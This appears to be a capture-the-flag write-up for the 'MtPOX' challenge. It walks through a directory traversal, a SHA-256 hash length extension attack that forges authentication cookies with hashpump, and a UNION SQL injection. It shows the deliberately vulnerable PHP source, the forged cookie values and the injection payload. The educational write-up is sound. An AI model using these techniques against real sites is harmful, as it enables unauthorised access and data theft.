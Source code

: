 ## Step 1 - Directory Traversal

This is what the site looks like:

![Home Page](http://i.imgur.com/sZVdEiP.png)

The admin page doesn't have a login option, it just says "Sorry, not authorized."

![Admin page](http://i.imgur.com/UDhGLnJ.png)

The page also set two cookies. One named *hsh*, and one named *auth*. *auth* is a URL encoded serialized PHP boolean `b:0;`. Setting *auth* to `b:1;` does nothing. (in fact it just gets reset)

**auth:** `b%3A0%3B`

*hsh* is a hash with a length of 64 characters. sha-256 is widely used and fits that description, so it's a safe bet. This cookie is probably protecting *auth*.

**hsh:** `ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3`

Visiting other pages on the site exposes a directory traversal vulnerability.

![Traversal Vuln](http://i.imgur.com/R9jiqHe.png)

Substituting *index* for *admin.php* exposes the full admin.php source code.

![admin.php traversed](http://i.imgur.com/ERvPwIY.png)

The unrendered source looks like this:

	<?php
		require_once("secrets.php");
		$auth = false;
		if (isset($_COOKIE["auth"])) {
			$auth = unserialize($_COOKIE["auth"]);
			$hsh = $_COOKIE["hsh"];
			if ($hsh !== hash("sha256", $SECRET . strrev($_COOKIE["auth"]))) {
				$auth = false;
			}
		}
    	else {
			$auth = false;
			$s = serialize($auth);
			setcookie("auth", $s);
			setcookie("hsh", hash("sha256", $SECRET . strrev($s)));
		}
		if ($auth) {
			if (isset($_GET['query'])) {
        		$link = mysql_connect('localhost', $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
        		mysql_select_db($SQL_DATABASE) or die('Could not select database');
        		$qstr = mysql_real_escape_string($_GET['query']);
        		$query = "SELECT amount FROM plaidcoin_wallets WHERE id=$qstr";
        		$result = mysql_query($query) or die('Query failed: ' . mysql_error());
        		$line = mysql_fetch_array($result, MYSQL_ASSOC);
        		foreach ($line as $col_value) {
          			echo "Wallet " . $_GET['query'] . " contains " . $col_value . " coins.";
        		}
			} else {
         		echo "<html><head><title>MtPOX Admin Page</title></head>			<body>Welcome to the admin panel!<br /><br /><form name='input' action='admin.php' method='get'>Wallet ID: <input type='text' name='query'><input type='submit' value='Submit Query'></form></body></html>";
			}
    	}
    	else echo "Sorry, not authorized.";
	?>

Taking a closer look at the source code confirms some previous suspicions and reveals how the *auth* cookie is created and checked. Retrieving the contents of *secrets.php* should be enough to forge new cookies!

![forbidden sauce](http://i.imgur.com/wmLNBDA.png)

What the hell! The source code of *secrets.php* isn't visible. The source of index.php reveals that The Plague had actually taken *some* precautionary measures to keep his secrets hidden. 

	if (strstr($_GET['page'], "secrets")) { echo "ERROR!\n"; }

Time to get creative.

## Step 2 - Hash Length Extension

There are several factors that have come into play here that make HLE possible.

1. SHA-256 is vulnerable to hash length extension attacks.

2. PHP unserialization will accept a valid input and ignore any data after the `;`. This means the *auth* cookie will always work as long as it starts with `b:0;` or `b:1;`.

3. The string at the end of the hashed text is reversed. This means any backwards data added to *hsh* will be at the beginning of the *auth* cookie.

4. The length of the key is known, or enough time is available to bruteforce it. (A little recon on the *about* page reveals the length to be 8)

Recommended reading:

* https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks 
* http://en.wikipedia.org/wiki/Length\_extension\_attack

[hashpump](https://github.com/bwall/HashPump) can do the heavy lifting for us. 

	$ ./hashpump -s "ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3" -d ";0:b" -a ";1:b" -k 8
    
    967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1
    /content/images/2014/Apr/1_home.png
	;0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b

The hash that hashpump outputs is the new *hsh*, and the second string is the new, reversed, hex-encoded *auth* string, which needs to be turned the right way around and URL-encoded.

This is what the *auth* cookie looks like the right way around, and properly encoded.
	b%3A1%3B`%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3A0%3B
    
Plug these in for the cookie values and suddenly *admin.php* looks like this:

![Admin Panel](http://i.imgur.com/DZhJJmz.png)

The only working ID is 0. All others return a blank page.

![1333337 coins](http://i.imgur.com/2QJzuD0.png)

## Step 3 - SQL Injection

At this point it makes sense to go back and look at *admin.php* some more. mysql_real_escape_strings() won't help you here, Mr. The Plague. In fact, just submitting the form without putting anything in the text box returns a SQL error.

	Query failed: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
    
The input box expects a numerical ID, but what goes after the ID is up to the creative problem solver.

From this point on, finding the key just takes some probing. The final query is quite simple:

	1 UNION SELECT id FROM plaidcoin_wallets
    
![Win.](http://i.imgur.com/Im7rPxl.png)

